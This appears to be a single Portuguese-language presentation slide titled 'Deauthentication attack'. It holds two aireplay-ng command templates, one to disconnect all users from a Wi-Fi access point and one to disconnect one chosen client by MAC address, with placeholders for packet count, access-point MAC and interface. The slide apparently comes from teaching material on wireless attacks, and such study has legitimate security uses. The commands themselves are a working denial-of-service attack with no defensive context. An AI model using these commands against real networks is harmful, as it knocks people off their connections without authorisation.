

# Deauthentication attack
Derrubar todos os usuários (instável)
sudo aireplay-ng --deauth [NUMERO DE PACOTES] -a [MAC DO AP] [NOME DA INTERFACE DE REDE]
Derrubar um usuário específico
aireplay-ng --deauth [NUMERO DE PACOTES] -a [MAC DO AP] -c [MAC DO ALVO] [NOME DA INTERFACE DE REDE]

0x07